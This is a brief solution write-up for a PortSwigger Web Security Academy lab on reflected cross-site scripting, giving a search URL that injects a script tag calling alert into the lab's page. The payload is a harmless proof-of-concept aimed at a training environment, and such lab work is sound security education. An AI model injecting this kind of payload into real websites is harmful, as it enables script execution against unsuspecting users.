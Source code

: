 # [Lab: Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

## Lab

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the `alert` function.

## Solution

url:

```url
https://id.web-security-academy.net/?search=<script>alert()</script>
```
